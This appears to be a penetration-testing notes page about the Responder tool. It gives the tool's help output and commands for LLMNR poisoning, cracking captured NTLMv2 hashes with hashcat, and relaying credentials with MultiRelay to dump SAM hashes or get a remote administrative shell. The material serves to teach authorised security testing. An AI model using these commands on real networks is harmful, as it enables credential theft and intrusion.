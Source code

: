 ```yaml
---
title: Responder
categories: [Ethical Hacking Tools,Credential Access]
tags: [responder, credential access (TA0006), llmnr, nbt-ns, mdns, aitm, mitm, hashcat, ntlmv2]
comments: true
---
```


# Overview

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.

Responder come packaged with Kali Linux by default. [^1]

| Tool Name | Version | MITRE ATT&CK Tactic | MITRE ATT&CK Technique |
| --------- | ------- | ------------------- | ---------------------- |
| [Responder.py](https://github.com/lgandx/Responder) | v3.1.3.0 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Adversary-in-the-Middle]() |

# Responder Help Page

```bash
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -d
or:
responder -I eth0 -wd

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -6 2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed, --externalip6=2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed
                        Poison all requests with another IPv6 address than
                        Responder's one.
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -d, --DHCP            Enable answers for DHCP broadcast requests. This
                        option will inject a WPAD server in the DHCP response.
                        Default: False
  -D, --DHCP-DNS        This option will inject a DNS server in the DHCP
                        response, otherwise a WPAD server will be added.
                        Default: False
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  --disable-ess         Force ESS downgrade. Default: False
  -v, --verbose         Increase verbosity.
```
{: .nolineno }

# Instructions

## Using Responder to Perform LLMNR Poisoning

Execute the below command on the attacker machine. Ensure that the `-I` switch is set to interface that is on the same network as the target.

```bash
# Running the listener will wait for a host to make a request
sudo responder -I ens33 -wd
```
{: .nolineno }

Once a set of NTLMv2 credentials have been collection, the password can be attempted to be cracked.

### Cracking NTLMv2 Credentials with HashCat

With the previously obtained NTLMv2 credential hash collected and saved to a text file. It can be parsed through a credential cracking utility such as hashcat.

```bash
hashcat -m 5600 -a 0 /PATH/TO/DUMP.txt /usr/share/wordlists/rockyou.txt 
```
{: .nolineno }

## Using Responder-Finger and Responder-MultiRelay

Responder comes packaged with additional tools can be used together with Responder to perform other tasks, such as relaying NTLMv2 credentials to gain authenticated access via SMB without the requirement to crack a collected NTLMv2 password hash. The below example shows how to identify systems that don't require SMB signing (a requirement for this method to work) using `Responder-Finger` and setup the `Responder-MultRelay` to gain authenticated access to another host. Local Administrative privileges is however a requirement for the process to work.

This will require three hosts; the attacker, the requesting LLMNR victim, and the target.

1. Configure the Responder configuration file located at `/etc/Responder/Responder.conf` (On Kali Linux) to disable SMB and HTTP server replies.

    ```conf
    SMB = Off
    HTTP = Off
    ```

2. Start Responder to listen for LLMNR requests. Ensure that the `-I` switch is set to interface that is on the same network as the target.

    ```bash
    sudo responder -I ens33 -wd
    ```
    {: .nolineno }

3. Identify hosts on the target network that have SMB signing disabled, the `-i` switch requires the subnet to search. Once the results are returned, identify any hosts that return `SMB signing: False`. If none are returned, this method will not work and NTLMv2 credentials will need to be cracked instead.

    ```bash
    sudo responder-RunFinger.py -i 10.10.10.1/24
    ```
    {: .nolineno }

4. Start the MultiRelay to relay the NTLMv2 credentials to any target host identified in step 3. In this example, `10.10.10.10` was identified to have SMB signing disabled and is therefore used as the target `-t`. The `-d` switch will instruct the MultiRelay tool to dump the local password hashes. The `-d` switch can be omitted which will instead return an administrative shell to the target machine.

    ```bash
    sudo responder-MultiRelay.py -t 10.10.10.10 -u ALL -d
    ```
    {: .nolineno }

5. If the `-d` switch was omitted in step 4, an interactive shell will be returned allowed the following commands.

   - Dump: Extract the SAM database and print hashes
   - regdump KEY: Dump a HKLM registry key
   - read: Read a file
   - get: Download a file
   - delete: Delete a file
   - Upload: Upload a local file to `\windows\temp\`
   - runas: Run a command as the currently logged on user
   - scan: Performs a scan using SMB for other local targets (use /24 or /26 to limit scope)
   - mimi: Run a remote Mimikatz 64 command
   - mimi32: Run a remote Mimikatz 32 command
   - lcmd: Run a local command 

# Sources
[^1]: [Kali - Responder](https://www.kali.org/tools/responder/)